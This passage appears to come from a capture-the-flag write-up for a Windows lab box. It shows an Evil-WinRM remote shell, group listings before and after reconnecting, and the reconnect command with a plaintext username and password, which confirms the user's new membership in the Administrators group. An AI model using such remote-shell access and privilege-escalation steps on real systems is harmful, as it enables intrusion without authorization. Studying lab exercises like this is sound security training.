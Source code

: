 The group will not be in my current session:

    
    
    *Evil-WinRM* PS C:\programdata> whoami /groups
    
    GROUP INFORMATION
    -----------------
    
    Group Name                                  Type             SID          Attributes
    =========================================== ================ ============ ==================================================
    Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
    

But if I exit and reconnect, it will be:

    
    
    *Evil-WinRM* PS C:\programdata> exit
    
    Info: Exiting with code 0
    
    oxdf@hacky$ evil-winrm -i 10.10.11.132 -u maria -p 'W3llcr4ft3d_4cls'
    
    Evil-WinRM shell v3.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\maria\Documents> whoami /groups
    
    GROUP INFORMATION
    -----------------
    
    Group Name                                    Type             SID                                           Attributes
    ============================================= ================ ============================================= ===============================================================
    Everyone                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users               Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                                 Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access    Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
    BUILTIN\Administrators                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
    NT AUTHORITY\NETWORK                          Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users              Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization                Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group